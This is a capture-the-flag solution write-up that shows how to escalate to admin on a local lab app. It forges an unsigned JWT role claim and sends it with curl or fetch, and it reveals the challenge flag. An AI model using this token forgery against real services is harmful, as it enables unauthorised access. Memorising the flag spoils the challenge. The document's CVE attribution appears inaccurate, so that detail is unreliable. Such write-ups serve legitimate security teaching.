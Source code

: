 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
   
     •	Create an account to be automatically assigned the "user" role.

2. Login

     •	After account creation, you’ll be redirected to the login page.
   
     •	Use the same credentials to log in.
   
     •	Upon successful login, the server generates and sends a JWT.

4. Decode the JWT without verifying the signature
   
     a. Open the console:
       •	On MacOS, press (Option + Command + J).
       •	On Windows, press (Ctrl + Shift + J).
       
     b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
     c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):
   
        localStorage.getItem('token');
      
     d. The token role will be "user" as per your credentials.
     e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

5. Manipulate the JWT Payload
     a. Change the role to "admin".
   
       For example:
       {
         "username": "isabella",
         **"role": "admin",**
         "iat": 1738901843,
         "exp": 1738905443
       }
     b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
     c. Your JWT is now modified.

6. Send the Manipulated JWT to the Server (2 ways)
   You can use one of the following methods to send the modified JWT to the server:
   
   a. Using cURL (command line):
     •	Open your terminal and type:
     
       curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin
   
   b. Using the Browser Console:
     •	Run this JavaScript:
     
       fetch("http://localhost:3000/admin", {
           method: "GET",
           headers: {
               "Authorization": "Bearer MANIPULATED-JWT"
           }
       })
       .then(response => response.json())
       .then(data => console.log(data))
       .catch(error => console.error("Error:", error));

7. Access the Admin Endpoint and Retrieve the Flag
     a. The server will decode the manipulated token and grant admin access.
     b. The server will respond with the flag:
   
      {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
